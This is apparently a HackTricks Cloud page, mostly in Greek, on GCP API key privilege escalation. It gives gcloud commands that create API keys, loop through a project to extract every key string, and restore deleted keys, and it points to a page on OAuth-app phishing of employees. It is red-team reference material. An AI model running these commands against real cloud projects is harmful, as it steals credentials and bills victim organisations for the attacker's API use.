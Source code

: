 # GCP - Apikeys Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apikeys

Οι παρακάτω άδειες είναι χρήσιμες για τη δημιουργία και την κλοπή API keys, όχι αυτό από τα έγγραφα: _Ένα API key είναι μια απλή κρυπτογραφημένη συμβολοσειρά που **ταυτοποιεί μια εφαρμογή χωρίς κανένα κύριο**. Είναι χρήσιμα για την πρόσβαση σε **δημόσια δεδομένα ανώνυμα**, και χρησιμοποιούνται για να **συσχετίσουν** τα API αιτήματα με το έργο σας για ποσοστά και **χρέωση**._

Επομένως, με ένα API key μπορείτε να κάνετε αυτή την εταιρεία να πληρώσει για τη χρήση του API σας, αλλά δεν θα μπορείτε να αναβαθμίσετε τα δικαιώματα.

Για περισσότερες πληροφορίες σχετικά με τα API Keys ελέγξτε:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

Για άλλους τρόπους δημιουργίας API keys ελέγξτε:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Καθώς μπορεί να μην γνωρίζετε ποιες APIs είναι ενεργοποιημένες στο έργο ή τους περιορισμούς που εφαρμόζονται στο API key που βρήκατε, θα ήταν ενδιαφέρον να εκτελέσετε το εργαλείο [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) και να ελέγξετε **τι μπορείτε να αποκτήσετε πρόσβαση με το API key.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Αυτή η άδεια επιτρέπει να **δημιουργήσετε ένα API key**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
You can find a script to automate the [**δημιουργία, εκμετάλλευση και καθαρισμό ενός ευάλωτου περιβάλλοντος εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Σημειώστε ότι από προεπιλογή οι χρήστες έχουν άδειες να δημιουργούν νέα έργα και τους χορηγείται ο ρόλος του Ιδιοκτήτη στο νέο έργο. Έτσι, ένας χρήστης θα μπορούσε να **δημιουργήσει ένα έργο και ένα API key μέσα σε αυτό το έργο**.
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Αυτές οι άδειες επιτρέπουν **να καταγράφετε και να αποκτάτε όλα τα apiKeys και να αποκτάτε το Key**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Μπορείτε να βρείτε ένα σενάριο για την αυτοματοποίηση της [**δημιουργίας, εκμετάλλευσης και καθαρισμού ενός ευάλωτου περιβάλλοντος εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Αυτές οι άδειες σας επιτρέπουν να **καταγράφετε και να αναγεννάτε διαγραμμένα api keys**. Το **API key παρέχεται στην έξοδο** μετά την ολοκλήρωση της **αναίρεσης διαγραφής**:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Δημιουργία Εσωτερικής Εφαρμογής OAuth για phishing άλλων εργαζομένων

Ελέγξτε την παρακάτω σελίδα για να μάθετε πώς να το κάνετε αυτό, αν και αυτή η ενέργεια ανήκει στην υπηρεσία **`clientauthconfig`** [σύμφωνα με τα έγγραφα](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
